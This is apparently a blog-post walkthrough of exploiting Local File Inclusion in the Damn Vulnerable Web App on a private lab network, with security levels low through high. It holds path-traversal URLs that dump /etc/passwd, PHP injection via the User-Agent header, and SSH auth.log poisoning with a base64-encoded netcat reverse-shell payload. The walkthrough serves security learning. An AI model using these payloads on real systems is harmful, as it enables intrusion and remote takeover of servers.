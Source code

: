 ```yaml
---
layout: post
title: Dam Vulnerable Web App Local File Inclusion
---
```


Exploiting the Dam Vulnerable Web App

On both low and medium security we can read files on the server.
# LOW

http://10.0.2.4/dvwa/vulnerabilities/fi/?page=include.php

http://10.0.2.4/dvwa/vulnerabilities/fi/include.php 
Navigating to this we can see that it is on the server.
```
﻿Fatal error: Call to undefined function dvwaExternalLinkUrlGet() in /var/www/dvwa/vulnerabilities/fi/include.php on line 15
```
Next we navigate to where the passwords would be stored on the server.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd 
```
﻿root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh dhcp:x:101:102::/nonexistent:/bin/false syslog:x:102:103::/home/syslog:/bin/false klog:x:103:104::/home/klog:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash bind:x:105:113::/var/cache/bind:/bin/false postfix:x:106:115::/var/spool/postfix:/bin/false ftp:x:107:65534::/home/ftp:/bin/false postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false distccd:x:111:65534::/:/bin/false user:x:1001:1001:just a user,111,,:/home/user:/bin/bash service:x:1002:1002:,,,:/home/service:/bin/bash telnetd:x:112:120::/nonexistent:/bin/false proftpd:x:113:65534::/var/run/proftpd:/bin/false statd:x:114:65534::/var/lib/nfs:/bin/false snmp:x:115:65534::/var/lib/snmp:/bin/false
Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```

# MEDIUM
This also works on the medium level of security.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd
```
﻿root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh dhcp:x:101:102::/nonexistent:/bin/false syslog:x:102:103::/home/syslog:/bin/false klog:x:103:104::/home/klog:/bin/false sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash bind:x:105:113::/var/cache/bind:/bin/false postfix:x:106:115::/var/spool/postfix:/bin/false ftp:x:107:65534::/home/ftp:/bin/false postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false distccd:x:111:65534::/:/bin/false user:x:1001:1001:just a user,111,,:/home/user:/bin/bash service:x:1002:1002:,,,:/home/service:/bin/bash telnetd:x:112:120::/nonexistent:/bin/false proftpd:x:113:65534::/var/run/proftpd:/bin/false statd:x:114:65534::/var/lib/nfs:/bin/false snmp:x:115:65534::/var/lib/snmp:/bin/false
Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /etc/passwd:12) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```
Now with this we can upload a reverse shell.
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=/../../../../../proc/self/environ
```
﻿REDIRECT_HANDLER=php5-cgiREDIRECT_STATUS=200HTTP_HOST=10.0.2.4HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5HTTP_ACCEPT_ENCODING=gzip, deflateHTTP_COOKIE=security=medium; PHPSESSID=827df7d864ba3fe1d3c7ddfcbcb9d493HTTP_CONNECTION=keep-aliveHTTP_UPGRADE_INSECURE_REQUESTS=1PATH=/usr/local/bin:/usr/bin:/binSERVER_SIGNATURE=Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.0.2.4 Port 80 SERVER_SOFTWARE=Apache/2.2.8 (Ubuntu) DAV/2SERVER_NAME=10.0.2.4SERVER_ADDR=10.0.2.4SERVER_PORT=80REMOTE_ADDR=10.0.2.15DOCUMENT_ROOT=/var/www/SERVER_ADMIN=webmaster@localhostSCRIPT_FILENAME=/usr/lib/cgi-bin/phpREMOTE_PORT=35562REDIRECT_QUERY_STRING=page=/../../../../../proc/self/environREDIRECT_URL=/dvwa/vulnerabilities/fi/index.phpGATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=page=/../../../../../proc/self/environREQUEST_URI=/dvwa/vulnerabilities/fi/?page=/../../../../../proc/self/environSCRIPT_NAME=/cgi-bin/phpPATH_INFO=/dvwa/vulnerabilities/fi/index.phpPATH_TRANSLATED=/var/www/dvwa/vulnerabilities/fi/index.php
Warning: Cannot modify header information - headers already sent by (output started at /proc/10661/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 324

Warning: Cannot modify header information - headers already sent by (output started at /proc/10661/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 325

Warning: Cannot modify header information - headers already sent by (output started at /proc/10661/environ:1) in /var/www/dvwa/dvwa/includes/dvwaPage.inc.php on line 326
```
Navigating to this link with burp suite on we intercept it.
Looking at burp suite we can see the user-agent is Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 .
The same as the response we got on the web page previously.
If we modify the user agent and replace it with <?phpinfo();?> to test if we can execute php commands. 
We forward this and now we get a phpinfo page.

Now we listen on port 8888 with nc -vv -l -p 8888.
Then we replace the user-agent with <?passthru("nc -e /bin/sh 10.0.2.15 8888"); ?> to get a reverse shell by forwarding it with burp suite.

ssh random@10.0.2.4

﻿metasploitable sshd[10898]: Invalid user random from 10.0.2.15 Jul 23 11:51:50 metasploitable sshd[10898]: Failed none for invalid user random from 10.0.2.15 port 40146 ssh2 Jul 23 11:51:58 metasploitable 

Only 1 shot with this method

ssh "<?passthru('nc -e /bin/sh 10.0.2.15 8888'); ?>"@10.0.2.4

encode between the single quotes with base64 to make sure there arn’t any special characters to interfere with the bash. 

nc -e /bin/sh 10.0.2.15 8888 encoded into base64

bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgODg4OA==

ssh "<?passthru(base64_decode('bmMgLWUgL2Jpbi9zaCAxMC4wLjIuMTUgODg4OA==')); ?>"@10.0.2.4

nc -vv -l -p 8888

reloading this page 
http://10.0.2.4/dvwa/vulnerabilities/fi/?page=/../../../../../var/log/auth.log
we get access.


# HIGH

With high trying to access this link http://10.0.2.4/dvwa/vulnerabilities/fi/?page=/../../../../../etc/passwd results in file not found.


